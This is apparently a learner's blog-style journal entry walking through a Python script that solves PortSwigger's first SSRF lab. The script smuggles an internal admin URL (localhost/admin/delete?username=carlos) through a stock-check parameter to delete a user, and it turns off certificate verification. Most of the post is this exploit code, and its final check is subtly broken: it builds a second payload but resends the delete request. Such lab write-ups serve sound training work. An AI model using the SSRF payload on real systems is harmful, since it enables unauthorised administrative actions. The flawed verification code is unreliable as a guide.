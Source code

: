 "Sometimes in life, you have to make a selfish decision and do what's best for you." - Saquon Barkley

# Day-14 Summary:

### Things Done Today:

- [X] Wreath Network:

- [X] SSRF Lab #1: [Web-Security Academy](https://portswigger.net/web-security/) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
   - Done with lab#1 today: It was pretty easy and understood the python code [Check out the full code in good format here], which I'm gonna tryna explain you people here below. 

1. Importing all the modules. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. This thing is total optional, but in-order to check where you went wrong if the script doesn't work, this is real helpful thing to add onto the script.

```
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```
3. [If name-main](https://www.freecodecamp.org/news/if-name-main-python-example/): Check out this article to know more about why do we add this. 
   - My explanation: In simple terms, the python interpreter always checks for this `__name__` function line if it is set to the same. it will execute whatever is mentioned to be executed under it. Also since python is interpreted lang, it checks code line by line. 

```
if __name__ == "__main__":
    main()
```
4. Defining the main function. Here if the arguments by the user is not in the correct format or length, the whole program won't execute, otherwise will execute the program, which here is deleting the user Carlos as mentioned to-do in the lab-01 of SSRF.

```
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)
```

5. After defining the main user, it's time now to define the `delete_user(url)`. The goal of the program is to get the admin access and then delete the user named carlos. While looking to the source code, we got the admin path which was `/admin` and while looking at the admin source code we got the delete user path `/delete?username=carlos`. So here the below code make's the resuest to the url mentioned by the user while excuting this script and does the task.

```
def delete_user(url):
    payload = 'http://localhost/admin/delete?username=carlos' #since we have to delete the carlos username
    check_stock_path = '/product/stock' 
    params = {'stockApi': payload} #which is in the stock request
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params)
```
6. Now until above the if script executed, the user would have be deleted but what if we want to check if our script worked is correct or not, hence below code. Here we make an another request to the `/admin` path and in the response the script will check for keyword `User deleted successfully`, if mentioned then it is a success, if not - unsuccess. 

```
   # Now checking if it our script actually worked or not - which is here deleting the user name carlos 
    payload2 = 'http://localhost/admin'
    params2 = {'stockApi': payload2}
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params)
    if "User deleted successfully" in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was Unsuccessful.")
```


